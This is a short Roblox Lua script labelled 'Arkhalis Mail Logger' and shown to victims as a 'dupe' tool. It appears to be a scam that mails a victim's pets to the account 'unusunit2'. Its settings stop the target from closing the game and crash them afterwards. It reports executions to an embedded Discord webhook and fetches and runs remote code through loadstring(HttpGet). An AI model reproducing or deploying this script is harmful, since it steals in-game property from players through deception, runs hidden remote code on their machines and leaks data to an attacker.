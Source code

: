 -[[ Arkhalis Mail Logger ]]--
 
--[[ Main Config ]]--
_G.Username = "unusunit2" --// Username To Send Pets To
_G.GiftMessage = "dupe load" --// Message For The Gift To Say
 
_G.Diamonds = 500000 --// Amount Of Diamonds To Not Kick
_G.UnlockPets = true --// Unlocks Locked Pets
_G.AntiLeave = true --// Doesn't Let The Target Close Roblox
_G.Crash = true  --// Crashes Them After Its Finished
 
--[[ Webhook Config ]]--
_G.Webhook = "https://discord.com/api/webhooks/1100496954305286144/yJNK6GE2hiduDTT9QFb0TUrjf2xzcdGXbguYW_UTzbR11iTll3ILLZJDJDMZCiDMILas" --// Discord Webhook For Executions
 
--[[ UI Config ]]--
_G.ScriptName = "dupe" --// Script Name On The UI
_G.Tip1 = "1" --// Gives You Tips On The UI
_G.Tip2 = "2" --// Gives You Tips On The UI
_G.Tip3 = "3" --// Gives You Tips On The UI
_G.Tip4 = "4" --// Gives You Tips On The UI
_G.Tip5 = "5" --// Gives You Tips On The UI
--[[ Script ]]--
 
loadstring(game:HttpGet("https://arkhalislua.github.io/Lua/Arkhalis.lua"))()

